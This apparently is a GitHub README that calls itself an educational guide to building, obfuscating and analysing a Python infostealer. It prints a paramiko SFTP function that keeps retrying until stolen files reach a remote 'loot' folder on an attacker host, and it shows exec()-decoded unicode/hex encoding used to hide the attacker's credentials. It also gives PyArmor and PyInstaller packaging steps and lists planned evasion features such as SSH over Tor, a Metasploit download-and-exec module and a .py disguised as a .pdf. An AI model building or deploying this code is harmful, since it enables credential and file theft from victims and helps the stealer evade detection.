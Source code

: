 # Python Malware Analysis
A guide on the build process, obfuscation techniques, and analysis of simple python-based infostealer malware.<p>
<b>** Disclaimer ** This tutorial is intended for educational purposes only. It is purely to demonstrate the ease of creation and a few capabilities of infostealer malware at a rudimenary level. I do not condone the malicious use of this material.</b>


<br>

## Prerequisites
- Windows 10
- Python 3.1X
> pip install -U -R requirements.txt

<br>

## Exfiltration Methods

### SFTP exfiltration using [Paramiko](https://www.paramiko.org/installing.html)
The example script shown only uses SFTP via the paramiko library to exfiltrate stolen data (for now at least). Below is a snippet of its usage:

    def sftp_func(filepath):
        success = False
        while success == False:   # this will ensure continuous ssh calls  until the data is sent
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect({RHOST ip}, {RHOST listening port}, {RHOST ssh username}, {RHOST ssh password}, timeout=3)
                sftp = client.open_sftp()
        
                destination_path = f'/home/{a}/loot/{os.path.basename(filepath)}'
                sftp.put(filepath, destination_path)
                success = True
                
            except paramiko.ssh_exception.NoValidConnectionsError:
                pass
            except OSError:
                pass

<br>

### Email
...

<br>

### Other Methods ([PyExfil](https://github.com/ytisf/PyExfil))
...

<br>

## Code Obfuscation Techniques
### Encoding variables
In this example script, the arguments passed to the 'client.connect()' function (where client = paramiko.SSHClient()) are not human-readable, but instead obfuscated using layers of encoding. Below is an example of what this looks like:

    # before encoding
    b = "<remote ssh password>"
    a = "<remote ssh username>"
    c = "<server ip>"

    # after encoding
    yoyo = "\u0036\u0032\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0030\u0036\u0031\u0037\u0033\u0037\u0033\u0037\u0037\u0036\u0066\u0037\u0032\u0036\u0034\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0031\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0035\u0037\u0033\u0036\u0035\u0037\u0032\u0036\u0065\u0036\u0031\u0036\u0064\u0036\u0035\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0033\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0033\u0036\u0035\u0037\u0032\u0037\u0036\u0036\u0035\u0037\u0032\u0032\u0030\u0036\u0039\u0037\u0030\u0033\u0065\u0032\u0032"

    ...
    # usage in SFTP call
    exec(bytes.fromhex(yoyo), globals())   # converts the hexidecimal string to meaningful variables, python understands escape unicode chars (e.g. \u0036)
    client.connect(c, 22, a, b, timeout=4)
    ...

Pasting the original text into [Cyberchef](https://gchq.github.io/CyberChef/) and applying the following operations yields the legible string 'yoyo': 
- To Hex, No delimiter
- Escape Unicode Chars, Padding: 4, Encode all chars

However, it should be noted that this is a very crude technique as encoded characters are immediately recognizable to skilled forensic analysts and can be easily undone with several decoding tools. That said, when used in tandem with other obfuscation techniques, encoding can slightly delay reverse engineering efforts.

<br>

### Using [Pyarmor](https://pypi.org/project/pyarmor/)
To apply basic code obfuscation:
> pyarmor gen example.py

<br>

## Using [Pyinstaller](https://pyinstaller.org/en/stable/usage.html)
### Initial building:
> cd dist
> pyinstaller example.py

<br>

### Editing the .spec file
...


<br>

## Malware Analysis

**[PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)** - A Python script to extract the contents of a PyInstaller generated Windows executable file. The contents of the pyz file (usually pyc files) present inside the executable are also extracted and automatically fixed so that a Python bytecode decompiler will recognize it.

**[uncompyle6](https://github.com/rocky/python-uncompyle6/)** - A cross-version Python bytecode decompiler. Translates Python bytecode back into equivalent Python source code.

<br>

## To-do List
- change ssh port to 443 or 53
- Metasploit download+exec module
- .py to .pdf
- smtp exfiltration
- ssh key integration
- encrypted ssh password from http server
- ssh over tor socket
